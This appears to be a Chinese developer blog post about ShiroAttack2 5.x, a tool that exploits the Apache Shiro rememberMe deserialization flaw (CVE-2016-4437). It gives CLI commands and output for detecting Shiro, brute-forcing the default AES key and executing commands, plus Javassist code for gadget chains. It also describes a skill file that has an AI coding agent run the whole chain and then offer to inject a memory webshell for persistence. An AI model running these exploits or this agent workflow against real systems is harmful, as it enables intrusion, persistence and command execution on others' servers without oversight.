









# AI 时代 ShiroAttack2 5.x：修改了什么

5.0 到 5.1.0 这几个版本之间，ShiroAttack2 加了不少东西。这篇文章把主要变化串一遍，顺便聊聊背后的设计决策和踩过的坑。




---

## Shiro-550 为什么还在

2016 年的洞，到现在还能用。不是漏洞本身多高级，而是三个很现实的原因叠在一起。

第一，默认 Key。Shiro 1.2.4 及之前版本在 `CookieRememberMeManager` 里硬写了一个 AES Key：`kPH+bIxk5D2deZiIxcaaaA==`。十几年来的教程和脚手架代码一直在拷贝这个值。开发者在意的通常是"登录能不能用"，不是这个 Base64 字符串意味着什么。

第二，Key 换不掉。rememberMe 要求客户端和服务端用同一个 Key。一旦 Key 写进了配置文件、Docker 镜像、源码仓库，要替换就得所有节点一起改。中间还有一个旧 Key 失效前的兼容窗口。大多数团队的选择是：别动它。

第三，用起来太方便了。ysoserial 手动搓 Payload 的年代已经过去，GUI 点几下就能拿 shell，现在 CLI 可以直接嵌进脚本。利用成本越低，暴露面就越大。

---
## shiro-attack-cli Skill

CLI 已经把 ShiroAttack2 从 GUI 工具变成了命令行工具，但命令行工具本身还有一层门槛：参数怎么拼、AES 模式选哪个、报错了怎么办。这些东西对每天用的人来说是肌肉记忆，对偶尔用一次的人就是每次都要翻文档。

Skill 文件解决的就是这个"最后一公里"的问题。

### 不是文档，是指令

`.claude/skills/shiro-attack-cli/SKILL.md` 不是给人看的 README。它是一个给 AI Agent 加载的运行时指令文件。Claude Code、OpenCode 这类 AI 编程助手在启动时会扫描项目下的 `.claude/skills/` 目录，把每个 skill 的 frontmatter 和正文注入到自己的上下文中。

文件分两层。第一层是 YAML frontmatter：

```yaml
name: shiro-attack-cli
description: >
  当用户要求利用、检测或测试 Apache Shiro rememberMe 反序列化漏洞时使用。
  触发词包括 "Shiro"、"rememberMe"、"CVE-2016-4437"、"爆破 Shiro key"……
```

`description` 字段承担了两个职责。对 AI 来说它是语义路由——用户的输入匹配到这些触发词时，系统自动加载这个 skill 的完整内容，不需要用户知道 skill 的存在。对维护者来说它是意图分类——写清楚这个 skill 覆盖哪些场景，避免跟其他 skill 的触发范围重叠。

第二层是 Markdown 正文，按 CLI 的命令结构组织。但跟 man page 不一样——man page 追求参数完备性，skill 追求决策可用性。每一段都在回答 AI 在执行时会遇到的问题：这个参数什么时候该传、传什么值、传错了会怎样。

### 命令即决策树

以 `exec` 命令为例。skill 里是这么写的：

```bash
java -cp $JAR $CP exec -u <url> -K <key> -c <命令> \
  [--cbc|--gcm] [-g <gadget>] [-e <回显>] [--json]
```

参数后面跟的不是类型标注，是决策逻辑：

- `-K` : Shiro AES Key (Base64)。必需。 —— 告诉 AI：没有 Key 就调不了 exec，得先 crack
- `-g` : 省略则自动探测（优先无 commons-collections 依赖的变体） —— 告诉 AI：不知道 Gadget 就别传，让工具自己试
- `-e` : AllEcho（默认）、TomcatEcho、SpringEcho —— 告诉 AI：三种回显有优先级，先从默认的开始

AI 读到这些之后的行为不是"把用户的话翻译成 CLI 参数"，而是"根据当前已知信息补全缺失的参数，不确定的就交给自动探测"。用户说"帮我执行 whoami"，AI 知道自己缺 Key——追问"Key 是多少？"或者建议先跑 crack。用户给了 Key 但没说模式——AI 知道 `--cbc` 和 `--gcm` 得各试一次。

这就是 skill 和传统文档的本质区别：文档告诉你参数是什么，skill 告诉 AI 怎么决策。

### JSON 输出：给机器读的接口

CLI 的 `--json` 模式不只是一个格式化选项。它把工具的输出分成了两个通道：

```
{"level":"info","msg":"[++] 存在shiro框架！"}
{"level":"success","msg":"[++] 找到key：kPH+bIxk5D2deZiIxcaaaA=="}
{"level":"info","msg":"[++] 发现构造链:CommonsBeanutilsString_183  回显: AllEcho"}
root
```

以 `{` 开头的行是结构化日志——AI 可以直接 `JSON.parse` 拿到 level 和 msg。不以 `{` 开头的行是命令的原始输出——`whoami` 的结果就是 `root`，没有任何包装。

这个设计让 AI 可以做两件事。第一，从日志里提取关键信息：crack 的输出里出现 `level: "success"` 且 msg 包含 `找到key`，就把 Base64 字符串抠出来，自动填到下一步 exec 的 `-K` 参数里。第二，命令结果直接透传——AI 拿命令输出做后续判断时不需要先从日志行里正则提取，`tail -1` 就是结果。

skill 文件里把 JSON 输出的格式写死了，有几条示例 AI 就能认几条。这不是一个 schema 定义，而是通过样本示范让 LLM 学会解析规则。

### 错误表：AI 的排错知识库

skill 末尾有一段"常见错误"：

```
[-] 响应含 rememberMe=deleteMe
    → Key 正确但反序列化失败，尝试更换 Gadget/回显组合或检查 AES 模式

[-] 测试:xxx -> 响应含 rememberMe=deleteMe
    → 该组合未命中，自动探测继续

[-] 利用链与回显全部测试完毕，未发现可用组合
    → 所有链均失败，目标可能缺少必需依赖
```

对用户来说这是速查表。对 AI 来说这是异常处理的分支逻辑。当 exec 的输出里出现 `rememberMe=deleteMe`，AI 不需要理解 Shiro 反序列化机制的细节——skill 已经告诉它了：Key 是对的，问题出在 Gadget 或 AES 模式上，换个组合再试。

这里面有一个设计取舍：错误信息和排错建议都写在 skill 里，而不是写在 CLI 代码的异常处理里。原因是错误场景的应对策略可能比代码逻辑变化更频繁——今天建议"换 Gadget"，下个版本加了新的自动探测逻辑之后可能就自动处理了。把这些放在 skill 文件里更新成本更低，不会动到 Java 源码。

### 版本耦合：跟代码一起发版

skill 文件放在仓库的 `.claude/skills/shiro-attack-cli/SKILL.md`，跟 Java 源码同一棵 Git 树。CLI 加新命令时，skill 在同一个 commit 里更新。改参数名时，skill 的示例跟着改。

这不是什么新技术——跟"API 文档和代码放同一仓库"是一个道理。但它的效果在 AI 场景下被放大了：如果 skill 跟 CLI 版本脱节，AI 拼出来的命令会用旧参数名、引用已删除的 Gadget 链、或者漏掉新增的必需参数。用户看到的不是"文档过期了"，而是"AI 不好使"。所以版本同步不是 nice-to-have，是 skill 能持续可用的前提。

### 实际交互：AI 怎么用这个 skill

假设用户对 AI 说："帮我看看 http://example.com 是不是 Shiro，有的话拿 shell。" 

AI 不会一次性把所有命令拼完。它读到的 skill 里有一个隐含的工作流：

1. `detect -u http://example.com` —— 先确认是不是 Shiro
2. 输出里有 `存在shiro框架` → 继续；没有 → 换 `-k` 参数重试或报告
3. `crack -u http://example.com --cbc` 和 `--gcm` 各跑一遍
4. 从 JSON 输出里提取 Key → `exec -u ... -K <key> -c "whoami"` 验证
5. 拿下 shell 后问用户要不要注入内存马做持久化

每一步的决策依据都来自 skill 文件。AI 不需要知道 `SimplePrincipalCollection` 序列化是什么，不需要理解 AES-CBC 和 AES-GCM 的密码学差异——skill 把这些封装成了"先试 CBC 再试 GCM，哪个命中用哪个"的操作规则。这是把领域知识下沉到 skill 文件、让 AI 退化为执行器的思路。

这也是为什么 skill 文件值得认真写。它不是一份说明书，它是 AI 的操作系统 driver——写得越精确，AI 就操作得越稳。写模糊了，AI 就会在参数选择上随机游走，用户看到的是"有时候好使有时候不好使"。

---

## 攻击的六个阶段

```


探测 ── 发 rememberMe=yes，看有没有 Set-Cookie: rememberMe=deleteMe
         Shiro 1.x 遇到非法 Cookie 一定会回 deleteMe，这个跟 Key 没关系

爆破 ── 用 SimplePrincipalCollection 序列化 + 候选 Key 逐个加密
         响应里没有 deleteMe 就是 Key 对了
         5.0.2 开始 CBC 和 GCM 都试，哪个命中锁哪个

Gadget ── 用确认的 Key 加密完整 Payload（Gadget 链 + TemplatesImpl 回显类）
          检查响应里有没有 $$$ 或 Host 头

命令执行 ── rememberMe Cookie 带着 Gadget Payload
           命令写在 Authorization: Basic <base64(cmd)> 里
           回显类从请求头取命令，执行后塞进响应

内存马 ── 同样的 Gadget 链注入 Filter/Servlet
          之后直接访问 URL 就行了，不再依赖 rememberMe

Key 替换 ── 用内存马机制改掉 Shiro 的 AES Key
           旧 Key 失效，只有新 Key 能用
           六条注入路径适配不同部署环境
```


下面挑几个有意思的点细说。

---

## BeanComparator 的 serialVersionUID

这是 5.x 踩过最大的坑。

Java 反序列化时，`ObjectInputStream` 会拿流里 class 的 `serialVersionUID` 跟 JVM 里同名 class 的做比对。不一样就直接 `InvalidClassException`，没得商量。

commons-beanutils 在两个大版本里改了 `BeanComparator` 的内部实现，UID 跟着变了：

| 版本 | BeanComparator serialVersionUID |
|------|-------------------------------|
| 1.8.3 | `-3490850999041592962` |
| 1.9.2 | `-2044202215314119608` |

ShiroAttack2 编译依赖用的是 1.9.2。直接 `new BeanComparator()` 出来的对象先天携带 1.9.2 的 UID。如果目标 classpath 上是 1.8.3，反序列化就炸。

`_183` 后缀的 Gadget 的做法是在运行时用 Javassist 把 BeanComparator 的 serialVersionUID 字段改掉，然后拿独立 ClassLoader 加载修改后的类：

```java
ClassPool pool = ClassPool.getDefault();
CtClass ct = pool.get("org.apache.commons.beanutils.BeanComparator");

// 删掉编译 classpath（1.9.2）的 serialVersionUID
ct.removeField(ct.getDeclaredField("serialVersionUID"));

// 加上目标 classpath（1.8.3）的值
ct.addField(CtField.make(
    "private static final long serialVersionUID = -3490850999041592962L;", ct));

// 独立 ClassLoader 加载，跟主 ClassLoader 里的 1.9.2 版本隔离开
Comparator cmp = (Comparator) ct.toClass(new JavassistClassLoader()).newInstance();
```

这里的 `JavassistClassLoader` 是关键。它保证修改后的类跟 1.9.2 原版互不干扰。

然后 5.0.1 出了一个回归。commit message 写的是"correct BeanComparator serialVersionUID for runtime 1.8.3"，实际把正确值 `-3490850999041592962L`（1.8.3）改成了 `-2044202215314119608L`（1.9.2）。注释也跟着写反了。

结果：所有打 1.8.3 目标的 `_183` 链全部 `InvalidClassException`。Tomcat 日志里能清楚看到：

```


InvalidClassException: org.apache.commons.beanutils.BeanComparator
  stream classdesc serialVersionUID = -2044202215314119608  ← 工具生成（1.9.2）
  local class serialVersionUID = -3490850999041592962       ← 目标 JAR（1.8.3）
```


Key 爆破不受影响，因为用的是 `SimplePrincipalCollection`，不涉及 BeanComparator。所以用户看到的景象是：Key 找到了，Gadget 全挂。很容易让人怀疑是回显链的问题。

学到了什么：涉及 serialVersionUID 的修改，别信注释也别信记忆，拿 `javap -cp <jar> -verbose | grep serialVersionUID` 直接读。

---

## Comparator 和 commons-collections

还有一个更少被提到的坑：`BeanComparator` 对 commons-collections 的依赖。

commons-beanutils 1.8.3 中 `BeanComparator` 的空构造器长这样：

```java
public BeanComparator() {
    this(null, ComparableComparator.getInstance());
}
```

`ComparableComparator` 在 commons-collections 里。如果目标只有 commons-beanutils 没有 commons-collections，反序列化炸 `UnknownClassException`。

有些变体绕过了这个依赖，因为它们自己传了 Comparator：

| 变体 | Comparator | 依赖 commons-collections？ |
|------|-----------|--------------------------|
| CommonsBeanutils1 | 默认 ComparableComparator | 是 |
| CommonsBeanutilsString | String.CASE_INSENSITIVE_ORDER | 否，JDK 自带 |
| CommonsBeanutilsAttrCompare | new AttrCompare() | 否 |
| CommonsBeanutilsObjectToStringComparator | new ObjectToStringComparator() | 否 |

基于这个认知，CLI 的自动探测把无依赖的变体排在前面：

```
优先级 1（不需要 commons-collections）
    CommonsBeanutilsString_183, CommonsBeanutilsString,
    CommonsBeanutilsAttrCompare_183, CommonsBeanutilsAttrCompare,
    CommonsBeanutilsObjectToStringComparator_183, CommonsBeanutilsObjectToStringComparator

优先级 2（依赖 commons-collections）
    CommonsBeanutils1_183, CommonsBeanutils1,
    CommonsBeanutilsPropertySource_183, CommonsBeanutilsPropertySource
```

大多数目标只有 commons-beanutils，没有 commons-collections。这个排序让探测在多数场景下前几次请求就能命中。


---

## CLI 怎么做出来的

CLI 面临的麻烦是：核心类 `AttackService` 有 1000+ 行，深度依赖 JavaFX 的 `TextArea` 做日志输出。

```java
// 遍布 AttackService 的代码
this.mainController.logTextArea.appendText(Utils.log("[++] 找到key：" + foundKey));

Platform.runLater(() -> {
    this.mainController.shiroKey.setText(foundKey);
});
```

重写一套 CLIService 的话，1000 多行攻击逻辑要完整拷贝，之后加新功能得在 GUI 和 CLI 各实现一遍。早晚会不同步。

偷懒的做法是：`TextArea` 是一个普通 Java 类，可以被继承。

```java
public class ConsoleTextArea extends TextArea {
    private final OutputSink sink;

    @Override
    public void appendText(String text) {
        super.appendText(text);  // 维护 TextArea 内部缓冲
        if (sink != null && text != null) {
            sink.info(text.trim());  // 桥接到 CLI 输出
        }
    }
}
```

然后利用 `ControllersFactory` 这个全局注册表，在 CLI 启动时塞一个假的 `MainController`：

```java
initJavaFX();  // 启动 JavaFX 线程，这样 Platform.runLater 的任务能被执行

MainController mc = new MainController();
mc.logTextArea = new ConsoleTextArea(sink);
mc.InjOutputArea = new ConsoleTextArea(sink);
mc.shiroKey = new TextField();    // 占位，防止 NPE
mc.gadgetOpt = new ComboBox<>();  // 同上

ControllersFactory.controllers.put("MainController", mc);

// 然后 new AttackService(...) 从 ControllersFactory 取到的就是我们的 MainController
// 所有 appendText 自动走 ConsoleTextArea → CliOutputSink → stdout
```

AttackService 一行没改。它根本不知道自己在被 CLI 用。


输出层用了一个 `OutputSink` 接口，分 `info/success/warn/error/raw` 五个级别。`raw()` 不裹任何格式，命令结果直接透传到 stdout。这意味着用 `tail -1` 就能拿到命令输出，不用从日志行里抠。

`--json` 模式下日志行变成：

```json
{"level":"info","msg":"[++] 存在shiro框架！"}
{"level":"success","msg":"[++] 找到key：kPH+bIxk5D2deZiIxcaaaA== (CBC)"}
```

以 `{` 开头的是日志，否则是命令输出。脚本和 AI Agent 可以按行解析。

### 拿一个真实目标跑一遍

假设目标 `http://127.0.0.1:8080/login`，Shiro 1.2.4（CBC 模式），默认 Key：

```bash
JAR="shiro_attack-5.1.0-zulu-8-jfx.jar"
CP="com.summersec.attack.CLI.MainCLI"
T="http://127.0.0.1:8080/login"

# 探测
$ java -cp $JAR $CP detect -u $T
[*] [++] 存在shiro框架！

# 爆破 Key（字典文件放在工作目录的 data/shiro_keys.txt）
$ java -cp $JAR $CP crack -u $T --cbc
[*] [++] 存在shiro框架！
[*] [++] 找到key：kPH+bIxk5D2deZiIxcaaaA== (CBC)
[*] [+] 爆破结束

# 指定 Key 验证（跳过字典爆破）
